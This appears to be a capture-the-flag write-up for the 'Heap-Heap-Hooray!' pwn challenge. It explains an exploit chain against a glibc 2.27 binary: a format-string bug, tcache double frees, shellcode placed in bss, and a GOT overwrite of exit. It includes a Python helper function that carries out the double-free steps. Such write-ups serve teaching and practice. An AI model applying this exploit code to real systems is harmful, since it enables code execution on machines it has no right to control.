 # Heap-Heap-Hooray!


**Category:** Pwn

**Points:** 988

**Description:**

<img src="https://i.imgur.com/9oagyn3.png" width="100%">

P.S. glibc2.27 is the greatest version of glibc!

`nc tasks.open.kksctf.ru 10000`

lib: https://drive.google.com/open?id=1cpyWT_cRu2szV2u4lpp5ESgMMXUP3IMu  
heap: https://drive.google.com/open?id=1Cnx-VBufgdowFXvE7iIPc6mBZRbnZc7W  
df: https://drive.google.com/open?id=1TRfyx8-5DZrQ70ah8eKLTCbxFT4vBAWj

@oldwayfarer

## WriteUp 

### Main idea
The main idea is to get control over chunks controlling structure (witch represented with a bit map) via exploiting format string vulnerability and then perform a double free atack twice to execute shellcode

On the first double free, we put shell code with `\bin\sh` on `bss` section (Array with 32 chunk addresses is located there, so we have more then enough place for shellcode).
On the second double free, we rewrite the GOT entry for `exit()` function with the address of shellcode. And then calling exit to get shell

### Exploitation
Step 1, Exploit double free to get able to write shellcode into bss. bss address can be obtained from binary. Use after free is possible becouse it said that glibc 2.27 is used and in this version a tcatch is already exists and have not got any protection mechanisms included by default. We will use following function to perform the double free atack:

	def exploit_double_free(c, payload, address, chunk_size, final_chunk):
    		c.allocate(13, chunk_size, "any_message")
    		c.allocate(14, chunk_size, "any_message")
    		c.free(13)
    		c.free(14)
    		c.allocate(15, chunk_size+0x20, "%{}x%6$hn".format(str(int("10000000000000", 2))))
    		c.list()

    		c.free(13)
    		c.allocate(13, chunk_size, p32(address))
    		c.allocate(14, chunk_size, "any_message")
    		c.allocate(15, chunk_size, "any_message")
    		c.allocate(final_chunk, chunk_size, payload)
	#!/usr/bin/env python2
